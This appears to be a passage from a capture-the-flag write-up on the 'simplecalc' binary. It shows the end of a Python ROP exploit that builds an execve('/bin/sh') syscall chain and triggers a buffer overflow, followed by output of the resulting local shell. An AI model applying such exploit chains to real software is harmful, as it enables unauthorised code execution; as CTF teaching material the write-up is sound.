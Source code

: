 ```
pop rdx, 0x0 ; ret
'''
add(popRax)
add(0x6c1000)
add(popRdx)
add(0x0068732f6e69622f) # "/bin/sh" in hex
add(movGadget)

add(popRax) # Specify which syscall to make
add(0x3b)

add(popRdi) # Specify pointer to "/bin/sh"
add(0x6c1000)

add(popRsi) # Specify no arguments or environment variables
add(0x0)
add(popRdx)
add(0x0)

add(syscall) # Syscall instruction

target.sendline('5') # Save and exit to execute memcpy and trigger buffer overflow

# Drop to an interactive shell to use our new shell
target.interactive()
```

When we run the exploit:

```
$ python exploit.py
[+] Starting local process './simplecalc': pid 15676
[*] Switching to interactive mode
Result for x + y is 0.

Options Menu:
 [1] Addition.
 [2] Subtraction.
 [3] Multiplication.
 [4] Division.
 [5] Save and Exit.
=> $ w
 20:06:39 up  5:53,  1 user,  load average: 1.71, 1.30, 1.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               14:13   ?xdm?  22:10   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
core  exploit.py  readme.md  simplecalc
```

Just like that, we popped a shell!